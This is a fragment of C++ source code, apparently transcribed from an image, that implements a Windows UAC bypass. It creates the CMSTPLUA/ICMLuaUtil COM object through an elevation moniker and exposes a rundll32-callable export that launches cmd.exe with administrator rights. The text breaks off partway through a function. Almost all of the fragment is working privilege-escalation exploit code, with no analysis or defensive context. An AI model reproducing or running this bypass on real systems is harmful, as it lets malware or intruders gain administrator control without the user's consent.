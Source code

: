 // import func called by rundll32.exe
void CALLBACK BypassUAC(HWND hWnd, HINSTANCE hInstance, LPSTR lpszCmdLine, int iCmdShow)
{
	CMLuaUtilBypassUAC((LPWSTR)L&#34;C:\Windows\System32\cmd.exe&#34;);
}

HRESULT CoCreateInstanceAsAdmin(HWND hWnd, REFCLSID rclsid, REFIID riid, PVOID* ppVoid)
{
	BIND_OPTS3 bo;
	WCHAR wszCLSID[MAX_PATH] = { 0 };
	WCHAR wszMonikerName[MAX_PATH] = { 0 };
	HRESULT hr = 0;

	// init env of COM
	::CoInitialize(NULL);

	// construct string
	::StringFromGUID2(rclsid, wszCLSID, (sizeof(wszCLSID) / sizeof(wszCLSID[0])));
	hr = ::StringCchPrintfW(wszMonikerName, (sizeof(wszMonikerName) / sizeof(wszMonikerName[0])), L&#34;Elevation:Administrator!new:%s&#34;, wszCLSID);
	if (FAILED(hr))
	{
		return hr;
	}

	// set BIND_OPTS3
	::RtlZeroMemory(&amp;bo, sizeof(bo));
	bo.cbStruct = sizeof(bo);
	bo.hwnd = hWnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;

	// create get name object and get COM object
	hr = ::CoGetObject(wszMonikerName, &amp;bo, riid, ppVoid);
	return hr;
}

BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;

	do {
		::CLSIDFromString(CLSID_CMSTPLUA, &amp;clsidICMLuaUtil);
		::IIDFromString(IID_ICMLuaUtil, &amp;iidICMLuaUtil);

		// improve privilege
		hr = CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&amp;CMLuaUtil));
		if (FAILED(hr))
		{
			break;
		}
